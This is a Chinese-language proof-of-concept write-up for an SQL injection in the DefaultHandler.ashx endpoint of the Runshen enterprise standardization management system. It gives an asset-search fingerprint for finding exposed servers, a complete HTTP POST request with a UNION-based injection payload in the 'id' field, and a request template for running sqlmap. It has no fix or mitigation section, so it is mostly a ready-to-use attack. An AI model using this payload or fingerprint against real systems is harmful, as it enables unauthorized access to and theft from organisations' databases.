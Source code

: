 # 润申企业标准化管理系统DefaultHandler存在SQL注入漏洞

# 一、漏洞简介
润申企业标准化管理系统DefaultHandler存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

# 二、影响版本
+ 润申企业标准化管理系统

# 三、资产测绘
+ hunter`web.body="PDCA/js/_publicCom.js"`
+ 特征

![1706683539418-696ecda0-4ff3-464b-b2e3-babb1ff1535c.png](./img/vxgv315vbLxerLKK/1706683539418-696ecda0-4ff3-464b-b2e3-babb1ff1535c-588200.png)

# 四、漏洞复现
```plain
POST /ashx/DefaultHandler.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

action=GetDetail&status=300&id=1+UNION+ALL+SELECT+NULL%2CNULL%2CNULL%2CNULL%2CCHAR%28113%29%2BCHAR%28112%29%2BCHAR%28122%29%2BCHAR%28122%29%2BCHAR%28113%29%2BCHAR%2885%29%2BCHAR%28122%29%2BCHAR%2883%29%2BCHAR%28113%29%2BCHAR%2890%29%2BCHAR%28120%29%2BCHAR%2888%29%2BCHAR%28103%29%2BCHAR%2886%29%2BCHAR%28122%29%2BCHAR%2876%29%2BCHAR%2881%29%2BCHAR%2868%29%2BCHAR%2871%29%2BCHAR%2866%29%2BCHAR%28104%29%2BCHAR%2872%29%2BCHAR%28117%29%2BCHAR%2890%29%2BCHAR%28112%29%2BCHAR%28106%29%2BCHAR%28117%29%2BCHAR%28105%29%2BCHAR%2865%29%2BCHAR%28100%29%2BCHAR%28111%29%2BCHAR%28118%29%2BCHAR%28119%29%2BCHAR%28119%29%2BCHAR%28119%29%2BCHAR%28111%29%2BCHAR%2877%29%2BCHAR%2890%29%2BCHAR%28105%29%2BCHAR%28103%29%2BCHAR%28111%29%2BCHAR%2880%29%2BCHAR%28106%29%2BCHAR%2869%29%2BCHAR%2887%29%2BCHAR%28113%29%2BCHAR%28106%29%2BCHAR%28107%29%2BCHAR%28122%29%2BCHAR%28113%29%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL--+BUHl
```

![1706683626241-47cd4bf6-62a1-4c76-9ea8-17ea7a0f0ca8.png](./img/vxgv315vbLxerLKK/1706683626241-47cd4bf6-62a1-4c76-9ea8-17ea7a0f0ca8-238255.png)

sqlmap

```plain
POST /ashx/DefaultHandler.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

action=GetDetail&status=300&id=1
```

![1706683667235-7e291c4d-59f6-43a2-b4be-f55a0a06a191.png](./img/vxgv315vbLxerLKK/1706683667235-7e291c4d-59f6-43a2-b4be-f55a0a06a191-376936.png)



> 更新: 2024-02-29 23:55:42  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/re7d3yel51oishkq>